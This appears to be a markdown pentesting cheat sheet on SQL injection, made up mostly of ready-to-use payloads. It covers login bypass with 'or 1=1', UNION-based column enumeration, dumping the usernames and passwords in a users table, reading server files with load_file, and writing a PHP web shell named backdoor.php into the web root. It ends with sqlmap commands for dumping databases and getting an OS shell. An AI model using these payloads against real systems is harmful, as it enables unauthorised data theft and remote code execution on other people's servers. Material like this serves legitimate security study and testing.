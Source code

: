 # SQL Injection

> SQL injection is a web security vulnerability that allows an attacker to interfere with the queries that an application makes to its database. It generally allows an attacker to view data that they are not normally able to retrieve.

## Identifying SQLi

First of all we need to find locations where data might pass through a DB (logins, comments..) and try to use special SQL characters in order to see how the application responds (we look for SQL syntax errors). Example:

#### Using single quote (')
```bash
#Normal query from a login form:
SELECT * FROM Users WHERE login = '$username' and password = '$password';
#Given a login form we can try to inject a single quote in order to make a sql syntax error.
#Modified query that will display syntax error:
SELECT * FROM Users WHERE login = ''' and password = 'mypassword';
```
_____

## Bypass Authentication

The classic SQLi example. By providing the following input in the user input we can bypass the login of a website:

```bash
#Input used + SQL final result (condition is true because 1=1):
user' or 1=1;#
SELECT * FROM users WHERE username = 'user' or 1=1;
```

The above example will display all rows in the users database. However, there are applications that will generate an error since the logic of the program is to retrieve only one. We can bypass this by appending the LIMIT in the end of the query string in order to only display one:

```bash
user' or 1=1 LIMIT 1;#
```
_____

## Enumerating the DB

Take this as an example of a new SQL query:

```SQL
$query = "SELECT id, name, grade FROM reviews WHERE id=". _GET['id'];
```

The URL will be something like the following:

```php
.php?id='
```

We can test the single quote (') again in order to verify if we get a syntax error.

#### Column Enumeration

The "ORDER BY" statement can help us to enumerate how many columns are used in the query string.  If there is at least 'n' columns in the query, the query is valid and the page will render without errors.

```php
<!-- Start changing n to 1 and increment by 1 until there is an error:-->
php?id=1 order by n
```

Once identified how many columns the query is using, we need to know which ones are displayed in the webpage. To achieve this we can use the union statement:

```bash
#In our example there are 3 columns:
php?id=1 union select 1,2,3
#This will display a number (1, 2 and 3) on the columns.
```

#### Extracting Data

Imagine only columns 2 and 3 are being displayed in the website. We can use SQLi to extract data from the database:

```bash
#These examples are made for MariaDB, this could change depending on the software used.
#SQL Version
php?id=1 union all select 1, 2, @@version
#Database user (don't use ;):
php?id=1 union all select 1, 2, user();
#Information schema. It stores information about the database, like table and column names:
php?id=1 union all select 1, 2, table_name from information_sc hema.tables
#Column names from a specific table (users):
php?id=1 union all select 1, 2, column_name from information_s chema.columns where table_name='users'
#"Users" table column data:
php?id=1 union all select 1, username, password from users
```
_____

## SQLi to RCE

SQLi can be used to read and write files on the underlying OS (not always).

#### Read file from the server:

```bash
php?id=1 union all select 1, 2, load_file('C:/Windows/System32/drivers/etc/hosts')
```

#### Write file on the server:

```bash
#This can output some errors, but the file should be created
php?id=1 union all select 1, 2, "<?php echo shell_exec($_GET['cmd']);?>" into OUTFILE 'c:/xampp/htdocs/backdoor.php'
```

_____

## SQLMap:
```bash
#TARGET should have the vulnerable parameter:
http://something.com/file.php?id=1
#Common uses
sqlmap -u $TARGET --dbs
sqlmap -u $TARGET -D $DATABASE --tables
sqlmap -u $TARGET -D $DATABASE -T $TABLE --columns
sqlmap -u $TARGET -D $DATABASE -T $TABLE -C $COLUMN1,$COLUMN2 --dump
#Take a look at cookies sent in the request, maybe should add --cookie="$COOKIE"
```

Common flags:

| **Flag**   | **Description**                            |
|------------|--------------------------------------------|
|--cookie    | HTTP Cookie header value                   |
|--dbs       | List DBS names                             |
|--tables    | Enumerate DBMS database tables             |
|--columns   | Enumerate DBMS database table columns      |
|-D          | DBMS database to enumerate                 |
|-C          | DBMS database table column(s) to enumerate |
|--dump      | Dump DBMS database table entries           |
|--dbms=mysql| Set backend type (change mysql)            |
|--os-shell  | Execute a remote command shell on target system|
